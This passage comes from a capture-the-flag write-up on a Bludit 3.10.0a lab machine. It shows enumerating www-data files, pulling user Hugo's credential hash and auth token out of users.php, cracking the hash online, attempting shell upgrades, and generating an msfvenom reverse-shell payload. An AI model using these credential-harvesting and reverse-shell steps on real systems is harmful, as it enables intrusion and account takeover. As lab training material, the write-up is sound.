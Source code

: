 ```
find / -user www-data 2> /dev/null

/var/www/bludit-3.10.0a
```

The command returns a lot for files and directories but the most important one appears to be: `/var/www/bludit-3.10.0a`. So, we can start enumerating the files present in this directory and see if we can find something useful.

After going through multiple files in the mentioned directory. We can find credentials for user `Hugo` in the file: `/var/www/bludit-3.10.0a/bl-content/databases/users.php`

```
pwd
/var/www/bludit-3.10.0a/bl-content/databases
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "*****************************************",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

We can use this password hash and head over to [CrackStation](https://crackstation.net/) to get the password. 

Even though now that we have the credentials for user 'Hugo', we can't switch user because we don't have a stable shell. To convert this unstable shell to a stable one we can try commands like:

```
1. python -c ‘import pty;pty.spawn(“/bin/bash”)’
2. echo os.system('/bin/bash')
```

But none of these works. We can try to create a custom payload using `msfvenom`, send it to the target machine and execute it as:

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<your_ip> LPORT=443 -f elf > shell.elf
```
